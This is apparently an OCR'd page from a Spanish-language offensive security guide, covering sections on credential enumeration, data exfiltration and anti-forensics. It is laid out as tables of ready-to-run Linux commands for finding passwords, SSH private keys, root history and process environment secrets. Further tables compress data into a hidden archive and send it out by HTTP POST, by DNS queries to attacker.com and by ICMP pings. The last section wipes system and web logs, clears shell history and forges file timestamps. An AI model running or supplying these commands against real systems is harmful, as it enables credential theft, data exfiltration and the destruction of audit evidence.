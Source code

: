 #### Enumeración de Credenciales y Configuraciones

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Archivos de configuración    | `find / -type f -name "*.conf" -exec grep -l "password\|passwd\|pwd\|key" {} \; 2>/dev/null` | Localización de credenciales hardcodeadas |
| Strings de bases de datos    | `find / -name "*.php" -o -name "*.py" -o -name "*.pl" | xargs grep -l "mysql\|postgresql\|oracle\|mongodb" 2>/dev/null` | Identificar aplicaciones con acceso a BD |
| Claves SSH privadas          | `find / -name "id_rsa" -o -name "id_dsa" -o -name "id_ecdsa" -o -name "*.pem" 2>/dev/null` | Encontrar claves para movimiento lateral |
| Historial de comandos        | `find /home -name ".bash_history" -o -name ".zsh_history" -o -name ".history" 2>/dev/null` | Buscar comandos con credenciales |
| Historial root               | `cat /root/.bash_history 2>/dev/null` | Analizar comandos ejecutados por root           |

#### Extracción de Información de Procesos

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Procesos con datos críticos  | `ps aux | grep -E "mysql|postgres|apache|nginx|redis"` | Identificar procesos que manejan datos críticos |
| Variables de entorno         | `cat /proc/[PID]/environ | tr '\0' '\n'` | Extracción de credenciales de ENV vars          |
| Archivos abiertos            | `lsof -p [PID]`                      | Ver archivos y conexiones de proceso específico |

### 4.7 Exfiltración de Datos

#### Compresión y Preparación

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Compresión sigilosa          | `tar -czf /tmp/.backup.tar.gz /home/*/Documents /home/*/Desktop /var/www 2>/dev/null` | Preparar datos para exfiltración |
| Búsqueda de archivos valiosos | `find / -type f \( -name "*.xls*" -o -name "*.doc*" -o -name "*.pdf" -o -name "*.db" \) 2>/dev/null` | Localización automatizada de información valiosa |

#### Métodos de Exfiltración

| Método                       | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Exfiltración HTTP POST       | `curl -X POST -F "file=@/tmp/.backup.tar.gz" http://[IP]:8080/upload` | Transferencia via HTTP estándar             |
| Exfiltración DNS             | `xxd -p /tmp/secret.txt | fold -w32 | while read line; do dig $line.attacker.com; done` | Exfiltración usando protocolo DNS    |
| Exfiltración ICMP            | `xxd -p /tmp/data.txt | fold -w32 | while read line; do ping -c 1 -s 56 -p $line [IP]; done` | Usar paquetes ICMP para transferir datos |

### 4.8 Técnicas de Evasión y Anti-Forense

#### Limpieza de Evidencias

| Técnica                      | Comando                              | Propósito Académico                              |
|------------------------------|--------------------------------------|--------------------------------------------------|
| Limpieza de logs sistema     | `echo "" > /var/log/auth.log`<br/>`echo "" > /var/log/syslog` | Eliminación de evidencia de acceso            |
| Limpieza logs web            | `echo "" > /var/log/apache2/access.log`<br/>`echo "" > /var/log/nginx/access.log` | Borrar rastros de ataques web       |
| Limpieza historial           | `history -c`<br/>`echo "" > ~/.bash_history`<br/>`unset HISTFILE` | Borrar rastro de comandos ejecutados    |
| Manipulación timestamps      | `touch -r /bin/ls /path/to/malicious/file` | Modificar timestamps para ocultar actividad     |
